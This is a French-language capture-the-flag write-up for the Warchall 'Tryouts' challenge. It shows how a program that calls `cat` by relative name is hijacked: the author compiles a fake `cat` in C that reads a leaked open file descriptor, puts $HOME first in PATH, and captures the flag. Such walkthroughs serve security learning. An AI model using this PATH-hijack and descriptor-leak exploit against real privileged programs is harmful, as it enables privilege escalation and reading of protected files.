 # Warchall: Tryouts

## Objectif

Le défi consiste à deviner la valeur générée par `/dev/urandom` et à obtenir le fichier solution.txt en cas de trois réponses correctes. Cependant, il peut sembler impossible de deviner une valeur de 10 chiffres. Je me demande donc comment il est possible de les deviner.

## Vulnérabilité
J'ai observé cela au début de l'exécution avant de saisir la valeur à deviner : `cat: /home/user/tsilavina/seed: No such file or directory`. Cela m'a fait penser que la commande était exécutée avec cat au lieu d'un chemin absolu. Ainsi, il est possible de lire le drapeau en modifiant le PATH du programme appelé cat et en lisant le descripteur de fichier (fd) qui est ouvert et non fermé trois fois.

## Solution

- **Étape 1 :** Apres avoir observer le message `cat: /home/user/tsilavina/seed: No such file or directory`, mon premier reflexion c'est de creer le fichier `/home/user/tsilavina/seed`
- **Étape 2 :**  J'ai relancé le code et saisi une valeur, puis le message suivant s'est affiché :
  ```
    tsilavina@warchall:/home/level/matrixman/13_tryouts$ ./tryouts

    Enter your guess: 1233
    Wrong, /dev/urandom provided 4037066853

  ```
  Cela m'a fait penser que les valeurs à deviner proviennent de /dev/urandom. 

- **Étape 3 :** Après mes recherches sur le fonctionnement de la commande `cat`, j'ai réalisé que je pourrais créer ma propre commande `cat` en lisant le descripteur de fichier (fd) qui est ouvert et non fermé trois fois.
    - J'ai créé un fichier `tryouts.c` dans mon répertoire personnel et l'ai compilé en tant que `cat`.
    ```c
    //tryouts.c

    #include <stdio.h>
    #include <unistd.h>
    #include <string.h>

    int main(int argc, char *argv[]){
        FILE *fp = fopen(argv[1], "w");
        char buf[16];
        memset(buf, 0, sizeof buf);
        lseek(3,0, SEEK_SET);
        read(3, buf, sizeof buf);
        fprintf(fp, "%s", buf);
        return 0;
    }
    ```
    ```bash
    #Compiler le fichier "tryouts.c" en tant que commande "cat"

    gcc tryouts.c -o cat
    ```
    - Ensuite, j'ai exporté le PATH de mon répertoire ainsi :
    ```bash
    export PATH=$HOME:$PATH
    ```
    >On peut maintenant voir que le `/home/user/tsilavina` est dans le PATH, en utisant :
    ```bash 
    echo $PATH
    ```

- **Étape 4 :** J'ai réexécuté `./tryouts` dans `/home/level/matrixman/13_tryouts` et j'ai entré simplement trois valeurs successives. Le flag se trouve maintenant dans le fichier `seed` que j'ai créé à l'étape 1
